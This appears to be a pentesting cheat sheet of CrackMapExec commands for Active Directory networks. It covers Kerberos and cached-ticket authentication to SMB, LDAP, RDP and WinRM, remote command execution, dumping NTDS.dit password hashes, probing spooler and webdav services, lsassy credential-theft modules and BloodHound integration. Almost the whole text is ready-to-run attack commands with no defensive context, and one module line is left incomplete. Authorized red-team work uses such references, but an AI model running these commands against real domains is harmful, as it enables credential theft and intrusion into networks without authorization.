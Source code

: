 #### Crackmapexec using kerberos
```bash
crackmapexec ldap $$fqdn -k -u $users -p $password
crackmapexec smb $$fqdn -k -u $users -p $password
crackmapexec rdp $$fqdn -k -u $users -p $password
crackmapexec winrm $$fqdn -k -u $users -p $password
```

#### or using kcache
```bash
export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache 
crackmapexec ldap $$fqdn --use-kcache
crackmapexec smb $$fqdn --use-kcache -x whoami
crackmapexec rdp $$fqdn --use-kcache
crackmapexec winrm $$fqdn --use-kcache
```

#### Using w/ KDC option
```bash
crackmapexec smb $$fqdn -k --kdcHost $ip
crackmapexec ldap $$fqdn -k --kdcHost $ip
```

#### Dump NTDS.dit with local/domain admin rights
```bash
crackmapexec smb $ip -u $user -p $password --ntds
crackmapexec smb $ip -u $user -p $password --ntds --users
crackmapexec smb $ip -u $user -p $password --ntds --users --enabled
crackmapexec smb $ip -u $user -p $password --ntds vss
```

#### Check spooler/webdav running
```bash
crackmapexec smb $ip -d $fqdn -u "$user" -p $password -M spooler
crackmapexec smb $ip -d $fqdn -u "$user" -p $password -M webdav
```

#### Cred Modules
```bash
-M lsassy
-M teams_localdb
-M 
```

#### Bloodhound Integration
```bash
.vim /.cme/cme.conf

[BloodHound]
bh_enabled = True
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = user
bh_pass = pass
```
